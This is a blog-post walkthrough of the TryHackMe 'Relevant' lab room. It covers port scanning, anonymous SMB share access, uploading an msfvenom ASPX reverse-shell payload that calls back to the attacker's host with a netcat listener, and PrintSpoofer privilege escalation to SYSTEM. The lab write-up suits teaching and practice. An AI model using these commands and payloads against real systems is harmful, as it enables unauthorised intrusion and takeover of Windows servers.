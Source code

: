 ```yaml
---
slug: relevant-walkthrough
title: TryHackMe - Relevant - Walkthrough
authors: bw
tags: [learning, relevant, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Relevant][relevant]. Let’s get started!

# Overview
This room is laid out about as similar to a real-world pentest that a THM room can be. It comes with a Scope of Work (SOW) that you need to read through and follow. As the room states, it would be beneficial to treat this as a real pentest, and write a report on it. I won’t be doing that in this walkthrough, but I will do that on my own. I may post the report in a separate posting.

# User Flag
Since this is a black box test, let’s start with `rustscan`. This tool can be found [here][rustscan]. This tool will first scan the server, then pass the open ports into `nmap` for output.

Command: `rustscan -a <machine_ip> -- -A -Pn`

![r1](/img/thm/relevant/r1-1.png)

As you can see, we have a web-server, SMB, and RDP ports open on this box. We also see 49663 port open with an IIS service.. We have a possible OS of Windows Server 2016 SE 14393.

Let’s checkout the port 80 web-server first!

![r2](/img/thm/relevant/r2.webp)

We are met by an extremely blue default Windows IIS page. `nmap` gave a version of `httpd 10.0` that we can research exploits on. SMB also seems like a good route to go. Let’s enumerate smb with `smbclient`. This tool should be pre-installed on your Kali instance. If not, run `sudo apt install smbclient`

Let’s run it with this command:

`smbclient -L \\\\<machine_ip>`

Just press **Enter** when prompted for a password

![r3](/img/thm/relevant/r3.png)

We can see there are a few directories listed. Can we connect to any? We can connect to `IPC$` with `smbclient \\\\<machine_ip>\\IPC$`. However, we get the following error:

`NT_STATUS_INVALID_INFO_CLASS listing \*`

Let’s try the last one: `nt4wrksv`

Success! `ls` the directory and we see `passwords.txt`

![r4](/img/thm/relevant/r4.png)

Let’s view the file. `get passwords.txt`

Now we have 2 encoded passwords. Let’s decode them! Head to [base64decode.org][base64] to decode both of the strings.

Now, we have 2 usernames and passwords. You may have tried to login, enumerate more, etc with these 2 usernames and passwords. Well, this is what we call a **honeypot**. This was put in place by the creator of the room to trick us and waste our time. Job well done! This is a dead end.

Let’s go back to other options of getting in. We haven’t checked out the website, other than visiting it. Let’s enumerate directories!

`dirsearch -u http://<machine_ip> -E -x 400,500 -r -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We didn’t find anything there. Let’s try the webserver on port 49663. Same default page, but what about a dirsearch?

![r9](/img/thm/relevant/r9.webp)

Looks like there is a directory with the same name as the smb share that we found earlier. Let’s see if it is connected to the share we were in.

![r5](/img/thm/relevant/r5.png)

This is good! Now, can we upload files? In a terminal, connect to the smb share and try to upload a file. `put file.txt`

![r6](/img/thm/relevant/r6.png)

SUCCESS! Alright, now how can we exploit this? Let’s craft a payload with `msfvenom`!

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<thm_ip> LPORT=1234 -f aspx -o shell.aspx
```

Now upload the file to the SMB client. Start a `netcat` listener: `nc -lvnp 1234`. Now curl the file: `curl http://<machine_ip>/nt4wrksv/shell.aspx`

![r7](/img/thm/relevant/r7.png)

Now navigate to a user folder to get the `user.txt` flag.

![r8](/img/thm/relevant/r8.png)

#Root Flag
Now we need to find a way to do privilege escalation on this machine. Let’s start by going through our permissions. I like to follow this [Checklist][payloads].

When you run: `whoami /priv` we find something interesting.

![r11](/img/thm/relevant/r11.png)

I found this [write-up][printspoof-w]. Let’s try this exploit! Exploit can be found [here][printspoof-e]. However, we need this to be compiled. You can compile this yourself, or just download the .exe [here][comp-print].

Get the file onto the system and then run: `PrintSpoofer.exe -i -c cmd`

![r12](/img/thm/relevant/r12.png)

Now get the root flag!

![r13](/img/thm/relevant/r13.png)

# Review
I thought this was an excellent room. It tested my skills and even caught me with that wonderful honeypot! I thought the creator of the room did a great job at keeping the room interesting and not having the normal points of entry!

# References
[TryHackMe][thm] | [Relevant Room][relevant] | [rustscan][rustscan] | [base64decode.org][base64] | [PayloadsAllTheThings WinPrivEsc Checklist][payloads] | [PrintSpoofer Write-Up][printspoof-w] | [PrintSpoofer Exploit][printspoof-e] | [Compiled PrintSpoofer.exe][comp-print]

[thm]: https://tryhackme.com
[relevant]: https://tryhackme.com/r/room/relevant
[rustscan]: https://github.com/RustScan/RustScan
[base64]: https://www.base64decode.org
[payloads]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#user-enumeration
[printspoof-w]: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
[printspoof-e]: https://github.com/itm4n/PrintSpoofer
[comp-print]: https://github.com/dievus/printspoofer